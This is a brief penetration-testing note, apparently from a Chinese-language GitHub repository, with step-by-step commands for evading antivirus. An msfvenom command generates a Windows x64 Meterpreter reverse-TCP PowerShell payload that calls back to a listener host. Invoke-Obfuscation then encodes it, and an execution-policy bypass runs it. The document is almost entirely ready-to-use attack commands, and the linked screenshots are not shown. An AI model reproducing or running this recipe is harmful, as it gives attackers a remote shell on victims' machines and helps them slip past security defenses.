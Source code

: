 	https://github.com/danielbohannon/Invoke-Obfuscation
	生成code
	>msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.0.108 LPORT=12138 -f psh -o /var/www/html/1.ps1
	>powershell -ep bypass
	>Import-Module .\Invoke-Obfuscation.psd1
	>Invoke-Obfuscation
	>set scriptpath C:\Users\y\Desktop\1.ps1
	>encoding
	>3 指定编码方式
	>out C:\Users\y\Desktop\ok.ps1 保存

![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/84.png)
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/85.png)

	执行
	>powershell -ep bypass -noexit -file ok.ps1

![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/86.png)
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/87.png)
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/88.png)